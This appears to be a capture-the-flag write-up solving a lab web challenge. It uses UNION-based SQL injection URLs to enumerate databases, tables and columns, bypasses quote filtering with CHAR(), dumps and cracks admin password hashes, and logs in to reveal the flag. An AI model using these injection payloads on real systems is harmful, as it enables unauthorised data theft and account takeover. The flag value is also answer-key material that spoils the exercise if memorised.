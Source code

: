 # http://192.168.99.100/index.php?page=signin

to get this flag we're going to
- list all databases on the sql server 
- list tables in a database
- list columns in a table

first, let's go to a page that allows us to do sql injection:
either `http://192.168.99.100/?page=member` or `http://192.168.99.100/index.php?page=searchimg`

normally, in sql, to get a list of all databases you would do:
```sql
show databases;
```
however, because we're doing sql injection, we must use `union` and get the database names via `select`
we can the database names from `information_schema.schemata`
to see all available columns in schemata we can do `select * from information_schema.schemata`
we are most interested in `schema_name`
#
let's try this url:
_**`http://192.168.99.100/index.php?page=member&id=-1 union select schema_name, 0 from information_schema.schemata&Submit=Submit`**_

after a little parsing, we have all database names:
-   `information_schema`
-   `Member_Brute_Force`
-   `Member_Sql_Injection`
-   `Member_guestbook`
-   `Member_images`
-   `Member_survey`

#

we are interested in the `Member_Brute_Force` database, how do we get a list of tables?
normally, in **sql** it would be something like this:
```sql
    use Member_Brute_Force;
    show tables;
```
but again, since we're using `union` and `select` we have to change that,
we can get the information we need from `information_schema.tables`
to see all available columns you could do `select * from information_schema.tables`
in our case, we're only interested in table names so we could do `select table_name from information_schema.tables`
and to narrow it down to a specific database we could do `select table_name from information_schema.tables where table_schema='Member_Brute_Force'`
however the php page will throw an error if we try to use quotes in our query, so we need a workaround ..

**`CHAR()` and `python` to the rescue ...**
```sh
e1z2r10p4% python -c 'print([ord(c) for c in "Member_Brute_Force"]);'       
[77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101]
```

so instead of using quotes
`where table_schema='Member_Brute_Force'`
we're going to use 
`where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)`

this is just a way of representing the database name without using quotes

let's try this url: _**`http://192.168.99.100/index.php?page=member&id=-1 union select table_name,0 from information_schema.tables where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)&Submit=Submit`**_

and now we know the name of the table in that database: `db_default`

let's get a list of column names:
url: _**`http://192.168.99.100/index.php?page=member&id=-1 union select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)&Submit=Submit`**_

if the database had more than one table you would probably also want to specify the table name like so:
`select column_name from information_schema.columns where table_schema=CHAR(...) and table_name=CHAR(...)`

so now, we know the column names in `Member_Brute_Force.db_default`:
-   *id*
-   *username*
-   *password*

to list all usernames and passwords lets do:
_**`http://192.168.99.100/index.php?page=member&id=-1 union select username, password from Member_Brute_Force.db_default&Submit=Submit`**_

how nice, we don't have to use `CHAR()` here
and this is what we get
username|password
-|-
root|3bf1114a986ba87ed28fc1b5884fc2f8
admin|3bf1114a986ba87ed28fc1b5884fc2f8

both have the same password, haha
a quick google search reveals that the password is an **MD5** hash of the string **_shadow_**

let's see a page diff:
```sh
e1z2r10p4% curl -s 'http://192.168.99.100/index.php?page=signin&username=dummy&password=dummy&Login=Login' -o before.html
e1z2r10p4% curl -s 'http://192.168.99.100/index.php?page=signin&username=admin&password=shadow&Login=Login' -o after.html 
e1z2r10p4% diff before.html after.html 
37c37
< <center><h2 style="margin-top:50px;"></h2><br/><img src="images/WrongAnswer.gif" alt=""></center>				</div>
---
> <center><h2 style="margin-top:50px;">The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 </h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>				</div>
e1z2r10p4% 
```

##### we have the flag `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`
tada!


another approach to getting this flag would be to actually try and (like the database name suggests) brute force this page via consecutive `GET` requests using a wordlist or dictionary, but it seems that the page calls the `sleep()` function when the user provides the wrong password, this makes the brute force approach less appealing
